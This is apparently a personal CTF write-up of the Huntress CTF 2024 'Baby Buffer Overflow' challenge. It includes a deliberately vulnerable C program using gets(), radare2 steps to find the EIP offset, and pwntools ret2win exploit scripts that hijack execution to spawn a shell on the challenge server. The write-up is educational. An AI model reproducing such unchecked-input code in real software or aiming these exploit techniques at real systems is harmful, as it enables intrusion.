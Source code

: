```yaml
---
title: "Huntress CTF 2024"
pubDate: 2024-11-18
description: "This CTF was my first time actually playing real Binary Exploitation because team HCS wanted me to start learning, unfortunately there were a few issues with this one challenge I solved, but it pushed me on the right track for learning Binary Exploitation."
tags:
  - ctf
  - pwn
---
```



## Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

<PostFileDownload name="2024-huntress-babybufov.zip" />

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

image here
